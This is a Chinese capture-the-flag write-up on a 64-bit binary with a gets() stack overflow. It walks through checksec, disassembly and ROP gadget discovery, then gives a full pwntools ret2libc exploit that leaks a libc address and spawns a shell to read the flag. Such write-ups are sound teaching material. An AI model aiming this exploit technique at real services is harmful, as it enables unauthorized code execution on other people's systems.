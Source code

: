 ![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711351646091-473c80bb-b081-42ab-8ac4-c0056c3d0612.png#averageHue=%23252b31&clientId=u620920a9-0c5a-4&from=paste&height=837&id=udceb363e&originHeight=837&originWidth=743&originalType=binary&ratio=1&rotation=0&showTitle=false&size=77709&status=done&style=none&taskId=uf8026596-f5cf-4eba-8c81-54db3d2e112&title=&width=743)
### 下载好附件之后，先丢到 checksec 看一下开了什么保护
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352413112-e07b4481-0817-474b-a5fa-d8798dd613aa.png#averageHue=%230f2427&clientId=u620920a9-0c5a-4&from=paste&height=232&id=u89d82581&originHeight=232&originWidth=510&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68848&status=done&style=none&taskId=ua511d451-1fed-4ec3-a568-a8a36e7e009&title=&width=510)
### 有栈溢出：Stack:    No canary found
### 丢到IDE看一下
按 shift+f12 看一下字符串，发现没有system和/bin/sh
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352579899-135f5402-e48a-4ea6-b344-852335ccc132.png#averageHue=%23474643&clientId=u620920a9-0c5a-4&from=paste&height=778&id=u4db6c5e4&originHeight=778&originWidth=1270&originalType=binary&ratio=1&rotation=0&showTitle=false&size=99914&status=done&style=none&taskId=u2ce971c1-d1e2-43e4-b876-c32c3f0e983&title=&width=1270)
回到上方标签（ IDA View-A ）回到主界面按f5查看伪代码
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352692527-afcf4d9d-6877-4d39-a135-4f0eb2c97599.png#averageHue=%23312f2e&clientId=u620920a9-0c5a-4&from=paste&height=611&id=ud92e9b96&originHeight=611&originWidth=681&originalType=binary&ratio=1&rotation=0&showTitle=false&size=51416&status=done&style=none&taskId=u13a2e265-49fe-4f58-b123-01d09949aa7&title=&width=681)

发现encrypt()函数存在gets溢出

![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711352763184-253e4de4-f0d8-49da-9571-6c0791920b65.png#averageHue=%23302f2e&clientId=u620920a9-0c5a-4&from=paste&height=571&id=ub68ac996&originHeight=571&originWidth=432&originalType=binary&ratio=1&rotation=0&showTitle=false&size=29792&status=done&style=none&taskId=ub44cb765-8eae-416f-95fd-f22e5563db2&title=&width=432)

gets没有任何限制，但是储存用户输入的s只有50的大小，加上r的大小就能溢出
双击s查看
```
0000000000000050 s db 48 dup(?)   // s的大小只有50
-0000000000000020 anonymous_0 dw ?
-000000000000001E db ? ; undefined
-000000000000001D db ? ; undefined
-000000000000001C db ? ; undefined
-000000000000001B db ? ; undefined
-000000000000001A db ? ; undefined
-0000000000000019 db ? ; undefined
-0000000000000018 db ? ; undefined
-0000000000000017 db ? ; undefined
-0000000000000016 db ? ; undefined
-0000000000000015 db ? ; undefined
-0000000000000014 db ? ; undefined
-0000000000000013 db ? ; undefined
-0000000000000012 db ? ; undefined
-0000000000000011 db ? ; undefined
-0000000000000010 db ? ; undefined
-000000000000000F db ? ; undefined
-000000000000000E db ? ; undefined
-000000000000000D db ? ; undefined
-000000000000000C db ? ; undefined
-000000000000000B db ? ; undefined
-000000000000000A db ? ; undefined
-0000000000000009 db ? ; undefined
-0000000000000008 db ? ; undefined
-0000000000000007 db ? ; undefined
-0000000000000006 db ? ; undefined
-0000000000000005 db ? ; undefined
-0000000000000004 db ? ; undefined
-0000000000000003 db ? ; undefined
-0000000000000002 db ? ; undefined
-0000000000000001 db ? ; undefined
+0000000000000000  s db 8 dup(?)
+0000000000000008  r db 8 dup(?) // r 的大小有8
```
### 开始构造第一个payload
因为这个程序是64位的，要查看指令地址
在kali里面运行命令：
```bash
ROPgadget --binary pwn --only "pop|ret"
# 这里的 pwn 是你的文件名，我为了方便改了
```
得到结果：
```bash
Gadgets information
============================================================
0x0000000000400c7c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c80 : pop r14 ; pop r15 ; ret
0x0000000000400c82 : pop r15 ; ret
0x0000000000400c7b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004007f0 : pop rbp ; ret
0x0000000000400aec : pop rbx ; pop rbp ; ret
0x0000000000400c83 : pop rdi ; ret // 记住这个地址 0x400c83
0x0000000000400c81 : pop rsi ; pop r15 ; ret
0x0000000000400c7d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b9 : ret // 记住这个地址 0x4006b9
0x00000000004008ca : ret 0x2017
0x0000000000400962 : ret 0x458b
0x00000000004009c5 : ret 0xbf02

Unique gadgets found: 15
```
构造payload
tips：因为gets的s参数的大小只有50，r的大小有8。这两个数值都是16进制,所以
```python
b'a' * (0x50+0x8) # 溢出的大小 
```
## 完整exp
```python
def payload(url, port):
    context(arch="amd64",os="linux",log_level="debug")
    elf = ELF('./pwn')
    p = remote(url,port)
    # 指令地址
    pop_rdi_ret = 0x400c83
    ret = 0x4006b9
    # 查找地址
    puts_plt = elf.plt['puts']
    puts_got = elf.got['puts']
    # 加密函数地址
    enc = elf.sym['encrypt']
    # 构造payload
    pd1 = b'a' * (0x50+8) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(enc)
    # 发送选项1，选择加密
    p.sendlineafter('choice!',str(1))
    # 发送payload到加密函数的输入上去
    p.sendlineafter('encrypt',pd1)
    # 找到libc地址
    put = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    print(hex(put)) 
    # 输出
    """ >>> 0x7f2961b099c0 """
    print('选择 libc6_2.27-0ubuntu2_amd64')
    libc = LibcSearcher('puts',put)
    libc_base = put - libc.dump('puts')
    # 获取system和sh
    def addr(hx):
        if hx != '':
            return libc_base + libc.dump(hx)
        else:
            hx = ''
    sys_addr = addr('system')
    sh_addr = addr('str_bin_sh')
    print(hex(sys_addr),hex(sh_addr))
    
    # 构造第二个payload
    pd2 = b'a' * 0x58 + p64(ret) + p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)
    # 利用
    p.sendlineafter('encrypt',pd2)
    p.interactive()

if __name__ == '__main__':
    from pwn import *  # 导入pwntools库  安装命令：pip install pwntools
    from LibcSearcher import *  # 导入LibcSearcher库
    url = ''  # 完整的题目地址
    payload(url.split(":")[0], url.split(":")[1])  # 调用payload函数进行渗透
```
### 运行提示
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711354129056-95ca2de8-de74-41a4-98d5-c08e3d114d3f.png#averageHue=%23282624&clientId=u620920a9-0c5a-4&from=paste&height=723&id=ub5aff1b5&originHeight=723&originWidth=721&originalType=binary&ratio=1&rotation=0&showTitle=false&size=78750&status=done&style=none&taskId=ubb332ef5-0879-4ddb-8e14-c52e7bcca2b&title=&width=721)

看到有一排的a时，输入命令：ls
ls 运行完后 输出 cat flag得到

![image.png](https://cdn.nlark.com/yuque/0/2024/png/43150086/1711354169453-c9eaac9e-f6ac-4f71-bcbc-fbe6e25f0f7d.png#averageHue=%23252423&clientId=u620920a9-0c5a-4&from=paste&height=707&id=uf1a28670&originHeight=707&originWidth=547&originalType=binary&ratio=1&rotation=0&showTitle=false&size=39501&status=done&style=none&taskId=ua50f74f6-32df-4596-b9b9-5280a4d6056&title=&width=547)
